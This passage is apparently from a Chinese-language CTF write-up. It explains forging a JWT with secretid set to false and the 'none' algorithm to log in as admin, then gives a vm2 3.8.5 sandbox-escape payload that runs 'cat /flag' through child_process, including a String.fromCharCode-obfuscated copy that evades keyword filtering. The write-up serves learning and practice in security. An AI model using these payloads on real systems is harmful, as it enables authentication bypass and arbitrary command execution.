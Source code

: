 sid是由JWT直接base64解码得到的，我们可以控制，下面有一个条件`!(sid < global.secrets.length && sid >= 0)`，根据js的特性，当我们可以将sid置为`false`，即可绕过这个判断，使`secret`为`undefined`。
jwt.verify这个函数在第二个参数为空时，会允许NONE方法的解密，至此我们构造出一下payload

```js
jwt.sign({"secretid": false,"username": "admin","password": "123456"},"",{algorithm:"none"})
```

将伪造的token发给服务器登录，即可将`ctx.session.username`置为`admin`，从而获取flag

## just_escape

一个为装成php的node，试几下就能发现
打一个`new Error().stack`，能看到调用栈
```
Error
    at vm.js:1:1
    at ContextifyScript.Script.runInContext (vm.js:59:29)
    at VM.run (/usr/src/app/node_modules/vm2/lib/main.js:219:62)
    at /usr/src/app/server.js:51:33
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/usr/src/app/node_modules/express/lib/router/index.js:335:12)
```
发现是一个vm2的沙箱，经过搜索发现这个沙箱存在很多逃逸，但是需要确定版本，根据`VM.run (/usr/src/app/node_modules/vm2/lib/main.js:219:62)`,这个函数所在的行，确定版本为`3.8.5`

在github上面找到一个能用逃逸[payload](https://github.com/patriksimek/vm2/issues/225)

因为存在一些关键词过虑，所以用`String.fromCharCode`绕过

```js
TypeError.prototype.get_process = f=>f.constructor("return process")();
try{
    Object.preventExtensions(Buffer.from("")).a = 1;
}catch(e){
    e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
}

TypeError[String.fromCharCode(112,114,111,116,111,116,121,112,101)][String.fromCharCode(103,101,116,95,112,114,111,99,101,115,115)] = f=>f[String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)](String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115))();
try{
    Object.preventExtensions(Buffer.from(String())).a = 1;
}catch(e){
    e[String.fromCharCode(103,101,116,95,112,114,111,99,101,115,115)](()=>{}).mainModule.require(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115))[String.fromCharCode(101,120,101,99,83,121,110,99)](String.fromCharCode(99,97,116,32,47,102,108,97,103)).toString();
}

```
